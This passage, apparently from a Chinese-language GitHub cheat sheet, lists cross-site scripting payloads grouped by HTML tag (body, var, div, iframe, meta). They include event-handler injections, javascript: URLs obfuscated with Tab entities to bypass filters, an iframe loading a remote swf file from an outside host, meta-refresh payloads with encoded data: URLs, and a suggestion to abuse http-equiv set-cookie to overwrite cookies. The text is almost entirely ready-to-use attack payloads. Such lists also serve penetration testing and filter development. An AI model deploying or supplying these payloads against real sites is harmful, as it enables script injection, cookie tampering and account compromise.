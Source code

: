 6. body标签

   通过event事件来调用js

   ```Html
   <body onload=alert(1)> 
   <body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
   ```

7. var标签

   ```html
   <var onmouseover="prompt(1)">M</var>
   ```

8. div标签

   ```html
   <div/onmouseover='alert(1)'>X

   <div style="position:absolute;top:0;left:0;width:100%;height:100%" onclick="alert(52)">
   ```

9. iframe标签

   有时候我们可以通过实体编码、换行和Tab字符来bypass。我们还可以通过事先在swf文件中插入我们的xss code，然后通过src属性来调用。不过关于flash，只有在crossdomain.xml文件中，allow-access-from domain="*"允许从外部调用swf时，才可以通过flash来事先xss attack。

   下面的`&Tab;`为tab字符

   ```html
   <iframe  src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe> 
   ```

   ```html
   <iframe SRC="http://0x.lv/xss.swf"></iframe> 
   ```

   ```html
   <IFRAME SRC="javascript:alert(1);"></IFRAME> 
   ```

   ```Html
   <iframe/onload=alert(1)></iframe>
   ```

10. meta标签

  测试时发现昵称，文章标题跑到meta标签中，那么只需要跳出当前属性再添加`http-equiv="refresh"`，就可以构造一个有效地xss payload。还有一些猥琐的思路，就是通过给`http-equiv`设置`set-cookie`，进一步重新设置cookie来干一些猥琐的事情。

  ```Html
  <meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
  ```

  ```html
  <meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">
  ```
